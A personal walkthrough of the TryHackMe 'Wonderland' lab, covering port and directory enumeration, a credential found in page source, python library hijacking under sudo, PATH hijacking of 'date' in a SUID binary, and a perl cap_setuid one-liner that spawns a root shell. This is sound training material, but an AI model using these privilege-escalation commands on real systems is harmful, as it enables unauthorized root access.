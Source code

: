 ## Machine Details
ipaddr=10.10.207.132


## Enumeration
```bash
nmap $IP -vvv -Pn -sC -sV -oN /nmapnmap-output.txt
```
Open ports
```
22
80
```
OS
```
Ubuntu
```
Port 80 is open browse to website
View source. Nothing special. No comments.
Highlight page no hidden text

try dirbuster for hidden directories
```bash
dirbuster -u http://10.10.207.132 -l /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -r
```
found directory /r
View source. Nothing special. No comments
Highlight page no hidden text

Using dirbuster we can see the sub directories
```
/r/a/b/b/i/t/
```
dirbuster seems to have stopped at the above directory

view source shows an interesting value
```
alice:HowDoxxxx
```
## TASK 
### Obtain the flag in user.txt


using the above as username:password ssh to machine

permission denied on root.txt
python file is generic

directories in ```/home``` no accessible

trying linpeas
```bash
scp /share/tryhackme/tools/linpeas/linpeas.sh alice@10.10.207.132:/dev/shm
```
had to use the hint.

Everything is upside down here.

go to ```/```

Notice folder called root

```cd``` to ```/root```

unable to ls -la in the directory

Gave in an had to go to internet to get answer.

```cat /root/user.txt``` to get the flag 

:facepalm: root.txt is in user dir and user.txt is in root dir


### Escalate your privileges, what is the flag in root.txt?

run ```sudo -l``` to list what we CAN do as alice.

Notice that python script... can be run as Rabbit

Check out the python script, cant edit it.. can view it

Python script is long but it imports Random 
random is a module in python but will also load from current directory. 

some googling took me here - https://gist.github.com/dvdknaap/190c458d2bcdc66aa937db0944caf222
Which mentions some /bin/bash in code.

also here https://gtfobins.github.io/gtfobins/python/
if i put that line into a python script, it should trigger shell as rabbit
```bash
alice@wonderland:~$ sudo -u rabbit python3 walrus_and_the_carpenter.py 
Sorry, user alice is not allowed to execute '/usr/bin/python3 walrus_and_the_carpenter.py' as rabbit on wonderland.
```
oh...

tried again with full path.. this time to python3.6 as this is in usr/bin
```bash
alice@wonderland:~$ sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```
now rabbit.

check out rabbit home directory
```bash
ls -la
```
permissions on this has a s ... something about this was mentioned in a John Hammond video. its a binary or something

run binary ```./teaParty```
```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Fri, 06 May 2022 15:32:07 +0000
Ask very nicely, and I will give you some tea while you wait for him
```
Disclaimer:

This is where i got lost. The rest is now from a write up

Start a simple python webserver to get the file back to our system
```python
python3 -m http.server
```
using Strings investigate the binary.

Notice the "date" variable. This is a binary that is in the users PATH

We can use that the similar as with the python module.

create a date file in the same directory as teaParty
```bash
#!bin/bash
echo ""
echo "Date Hijacked"
/bin/bash
```
save the file and chmod +x date to make it executable

now if we add our home directory to the $PATH it will search there for the "date" binary.

run the binary again to use date to get a new shell
```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by 
DATE HIJACKED
hatter@wonderland:/home/rabbit$
```
Go back to our linpeas results.

find setuid
```bash
cat /dev/shm/lin.txt | grep setui
[+] [CVE-2017-5618] setuid screen v4.5.0 LPE
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/perl = cap_setuid+ep
```
check out https://gtfobins.github.io/gtfobins/perl/#capabilities

to see the command for exploiting this setuid

```perl
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
none of these are working for me, getting permissions denied.

Decided to exit out of my hatter session and re-exploit date. Trying a different walkthrough

```bash
cd /tmp
echo /bin/sh > date
chmod 777 date
expot PATH=/tmp:$PATH
```
back to rabbit home and run teaParty again

Cannot find answer still getting permissions error.
following 

1hr of messing around... i read this on the tryhackme forum

> "hint-check ur shell theres a reason for the file in the hatters home directory"

at this point it hit me. 

su hatter

run 
```perl
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
and root.
```bash
cd /home/alice
cat root.txt
```